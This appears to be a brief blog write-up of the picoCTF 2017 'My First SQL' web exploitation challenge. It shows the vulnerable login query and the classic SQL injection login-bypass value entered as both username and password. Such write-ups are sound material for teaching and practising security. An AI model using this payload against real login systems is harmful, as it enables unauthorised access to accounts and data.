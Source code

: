 ```yaml
---
layout: post
title: Pico CTF 2017 My First SQL
category: ctf
---
```

<b>Category: Web Exploitation
  
My First SQL


<i>I really need access to website, but I forgot my password and there is no reset. Can you help?
HINTS
Have you heard about SQL injection?</i>

SELECT * FROM Users WHERE Username='$username' AND Password='$password'

$username = 1' or '1' = '1

$password = 1' or '1' = '1

![Image description](/images/myfirstsql.png)


![Image description](/images/myfirstsql2.png)
